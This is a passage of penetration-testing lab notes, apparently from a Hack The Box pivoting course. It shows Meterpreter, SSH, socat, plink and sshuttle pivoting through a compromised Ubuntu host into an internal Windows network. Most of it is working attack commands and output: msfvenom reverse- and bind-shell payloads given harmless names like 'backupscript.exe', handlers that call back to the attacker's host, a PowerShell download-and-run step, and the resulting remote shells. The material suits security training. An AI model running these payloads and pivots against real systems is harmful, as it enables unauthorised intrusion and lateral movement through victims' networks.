[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

#### Transferring Payload to Pivot Host

Once your payload is created and you have your listener configured & running, you can copy the payload to the Ubuntu server using the ```scp``` command since you already have the credentials to connect to the Ubuntu server using SSH.

```bash
d41y@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00 
```

#### Starting Python3 Webserver on Pivot Host

After copying the payload, you will start a python3 HTTP server using the below command on the Ubuntu server in the same directory where you copied the payload.

```bash
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload on the Windows Target

You can download this backupscript.exe on the Windows host via a web browser or the PowerShell cmdlet ```Invoke-Webrequest```.

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

#### Using SSH -R

Once you have your payload downloaded on the Windows host, you will use SSH remote port forwarding to forward connections from the Ubuntu server's port 8080 to your msfconsole's listener service on port 8000. You will use ```-vN``` argument in your SSH command to make it verbose and ask it not to prompt the login shell. The ```-R``` command asks the Ubuntu server to listen on ```<targetIPAddress>:8000``` and forward all incoming connections on port 8080 to your msfconsole listener on 0.0.0.0:8000 of your attack host.

#### Viewing the Logs from the Pivot

After creating the SSH remote port forward, you can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to your listener, you can see the logs from the pivot on the pivot host.

```bash
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
``` 

#### Meterpreter Session Established

If all is set up properly, you will receive a Meterpreter shell pivoted via the Ubuntu server.

```bash
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

Your Meterpreter session should list that your incoming connection is from a locahost itself since you are receiving the connection over the local SSH socket, which created an outbound connection to the Ubuntu server. Issuing the netstat command can show you that the incoming connection is from the SSH service.



### Meterpreter Tunneling & Port Forwarding

#### Scenario

```bash
d41y@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

Before copying the payload over, you can start a multi/handler, also known as a Generic Payload Handler.

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

You can copy the ```backupjob``` binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```bash
ubuntu@WebServer:~$ ls

backupjob
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```

You need to make sure the Meterpreter session is successfully established upon executing the payload.

```bash
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```

You know that the Windows target is on the 172.16.5.0/23 network. So assuming that the firewall on the Windows target is allowing ICMP request, you would want to perform a ping sweep on this network. You can do that using Meterpreter with the ```ping_sweep``` module, which will generate the ICMP traffic from the Ubuntu host to the network.

```bash
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

You could also perform a ping sweep using a for loop directly on a target pivot host that will ping any device in the network range you specify.

Bash:

```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

CMD:

```
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

PowerShell:

```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}
```

There could be scenarios when a host's firewall blocks ping, and the ping won't get you successfull replies. In these cases, you can perform a TCP scan on the target network with Nmap. Instead of using SSH port forwarding, you can also use Metasploit's post-exploitation routing module ```socks_proxy``` to configure a local proxy on your attack host.

```bash
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

```bash
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

After initiating the SOCKS server, you will configure proxychains to route traffic generated by other tools like Nmap through your pivot on the compromised Ubuntu host. You can add the below line at the end of your proxychains conf.

```bash
socks4 	127.0.0.1 9050
```

Finally, you need to tell your socks_proxy module to route all the traffic via your Meterpreter session. You can use the ```post/multi/manage/autoroute``` module from Metasploit to add routes for the 172.16.5.0 subnet and then route all your proxychains traffic.

```bash
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.

```bash
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

After adding the necessary route(s) you can use the ```-p``` option to list the active routes to make sure your configuration is applied as expected.

```bash
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

As you can see from the output above, the route has been added to the 172.16.5.0/23 network. You will now be able to use proxychains to route your Nmap traffic via your Meterpreter session.

```bash
d41y@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19 
Host is up (0.12s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```

#### Port Forwarding

... can also be accomplished using Meterpreter's ```portfwd``` module. You can enable a listener on your attack host and request Meterpreter to forward all the packets received on this port via your Meterpreter session to a remote host.

```bash
meterpreter > help portfwd

Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
    -R        Indicates a reverse port forward.

...

meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

The above command requests the Meterpreter session to start a listener on your attack host's local port 3300 and forward all the packets to the remote Windows server 172.16.5.19 on 3389 port via your Meterpreter session. Now, if you execute xfreerdp on your localhost:3300, you will be able to create a remote desktop session.

You can use Netstat to view information about the session you recently established. From a defensive perspective, you may benefit from using Netstat if you suspect a host has been compromised. This allows you to view any sessions a host has established.

```bash
d41y@htb[/htb]$ netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```

#### Reverse Port Forwarding

You can create a reverse port forward on your existing shell from the previous scenario using the below command. This command forwards all connections on port 1234 running on the Ubuntu server to your attack host on local port 8081.

```bash
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234

...

meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
``` 

You can now create a reverse shell payload that will send a connection back to your Ubuntu server on 172.16.5.129:1234 when executed on your Windows host. Once you Ubuntu server receives this connection, it will forward that to attack host's ip:8081 that you configured.

```bash
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Finally, you execute the payload on the Windows host, you should be able to receive a shell from Windows pivoted via the Ubuntu server.

```bash
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

## [Socat](../pivoting/socat.md)

### Redirection with Reverse Shell

... is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. You can start Metasploit's listener using the same command mentioned in the last section, and you can start socat on the Ubuntu server.

```bash
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat will listen on localhost on port 8000 and forward all the traffic to port 80 on your attack host. Once your redirector is configured, you can create a payload that will connect back to your redirector, which is running on your Ubuntu server. You will also start a listener on your attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to your attack host's listener, where you would be getting a shell.

```bash
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
``` 

Keep in mind that you must transfer this payload to the Windows host. You can use some of the same techniques used above.

``` bash
d41y@htb[/htb]$ sudo msfconsole

<SNIP>

...

msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

You can test this by running your payload on the windows host again, and you should see a network connection from the Ubuntu server this time.

```bash
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

### Redirection with Bind Shell

Similar to the socat's reverse shell redirector, you can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to your attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. You can create a bind shell payload for Windows and execute it on the Windows host. At the same time, you can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target.



You can create a bind shell using msfvenom with the below command.

```bash
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```

You can start a socat bind shell listener, which listens on port 8080 and forwards packets to Windows server 8443.

```bash
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finally, you can start a Metasploit bind handler. This bind handler can be configured to connect to your socat's listener on port 8080.

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

You can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.

```bash
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

## Pivoting around Obstacles

### SSH for Windows: plink.exe

Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies.

In the below image, you have a Windows-based attack host.



The Windows attack host starts a plink.exe process with the below command-line arguments to start a dynamic port forward over the Ubuntu server. This starts an SSH session between the Windows attack host and the Ubuntu server, and then plink starts listening on port 9050.

```
plink -ssh -D 9050 ubuntu@10.129.15.50
```

Another Windows-based tool called [Proxifier](https://www.proxifier.com/) can be used to start a socks tunnel via the SSH session you created. Proxifier is a Windows tool that creates a tunneled network for desktop client applications and allows it to operate through a SOCKS or HTTPS proxy and allows for proxy chaining. It is possible to create a profile where you can provide the configuration for your SOCKS server started by Plink on port 9050.

After configuring the SOCKS server for 127.0.0.1 and port 9050, you can directly start mstsc.exe to start an RDP session with a Windows target that allows RDP connections.

### SSH Pivoting with [Sshuttle](../pivoting/sshuttle.md)

Sshuttle can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host. You can configure the Ubuntu server as a pivot and route all of Nmap's network traffic with sshuttle.

One interesting usage of sshuttle is that you don't need to use proxychains to connect to the remote hosts.

To use sshuttle, you specify the option ```-r``` to connect to the remote machine with a username and password. Then you need to include the network IP you want to route through the pivot host.

```bash
d41y@htb[/htb]$ sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 

Starting sshuttle proxy (version 1.1.0).
c : Starting firewall manager with command: ['/usr/bin/python3', '/usr/local/lib/python3.9/dist-packages/sshuttle/__main__.py', '-v', '--method', 'auto', '--firewall']
fw: Starting firewall with Python version 3.9.2
fw: ready method name nat.
c : IPv6 enabled: Using default IPv6 listen address ::1
c : Method: nat
c : IPv4: on
c : IPv6: on
c : UDP : off (not available with nat method)
c : DNS : off (available)
c : User: off (available)
c : Subnets to forward through remote host (type, IP, cidr mask width, startPort, endPort):
c :   (<AddressFamily.AF_INET: 2>, '172.16.5.0', 32, 0, 0)
c : Subnets to exclude from forwarding:
c :   (<AddressFamily.AF_INET: 2>, '127.0.0.1', 32, 0, 0)
c :   (<AddressFamily.AF_INET6: 10>, '::1', 128, 0, 0)
c : TCP redirector listening on ('::1', 12300, 0, 0).
c : TCP redirector listening on ('127.0.0.1', 12300).
c : Starting client with Python version 3.9.2
c : Connecting to server...
ubuntu@10.129.202.64's password: 
 s: Running server on remote host with /usr/bin/python3 (version 3.8.10)
 s: latency control setting = True
 s: auto-nets:False
c : Connected to server.
fw: setting up.
fw: ip6tables -w -t nat -N sshuttle-12300
fw: ip6tables -w -t nat -F sshuttle-12300
fw: ip6tables -w -t nat -I OUTPUT 1 -j sshuttle-12300
fw: ip6tables -w -t nat -I PREROUTING 1 -j sshuttle-12300
fw: ip6tables -w -t nat -A sshuttle-12300 -j RETURN -m addrtype --dst-type LOCAL
fw: ip6tables -w -t nat -A sshuttle-12300 -j RETURN --dest ::1/128 -p tcp
fw: iptables -w -t nat -N sshuttle-12300
fw: iptables -w -t nat -F sshuttle-12300
fw: iptables -w -t nat -I OUTPUT 1 -j sshuttle-12300
fw: iptables -w -t nat -I PREROUTING 1 -j sshuttle-12300
fw: iptables -w -t nat -A sshuttle-12300 -j RETURN -m addrtype --dst-type LOCAL
fw: iptables -w -t nat -A sshuttle-12300 -j RETURN --dest 127.0.0.1/32 -p tcp
fw: iptables -w -t nat -A sshuttle-12300 -j REDIRECT --dest 172.16.5.0/32 -p tcp --to-ports 12300
```

With this command, sshuttle creates an entry in your iptables to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

```bash
d41y@htb[/htb]$ nmap -v -sV -p3389 172.16.5.19 -A -Pn

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-08 11:16 EST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 11:16
Completed Parallel DNS resolution of 1 host. at 11:16, 0.15s elapsed
Initiating Connect Scan at 11:16
Scanning 172.16.5.19 [1 port]
Completed Connect Scan at 11:16, 2.00s elapsed (1 total ports)
Initiating Service scan at 11:16
NSE: Script scanning 172.16.5.19.
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Nmap scan report for 172.16.5.19
Host is up.

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Domain_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: inlanefreight.local
|   DNS_Computer_Name: DC01.inlanefreight.local
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-14T02:58:25+00:00
|_ssl-date: 2022-08-14T02:58:25+00:00; +7s from scanner time.
| ssl-cert: Subject: commonName=DC01.inlanefreight.local
| Issuer: commonName=DC01.inlanefreight.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-13T02:51:48
| Not valid after:  2023-02-12T02:51:48
| MD5:   58a1 27de 5f06 fea6 0e18 9a02 f0de 982b
|_SHA-1: f490 dc7d 3387 9962 745a 9ef8 8c15 d20e 477f 88cb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6s, deviation: 0s, median: 6s


NSE: Script Post-scanning.
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.07 seconds
```

You can now use any tool direct without using proxychains.

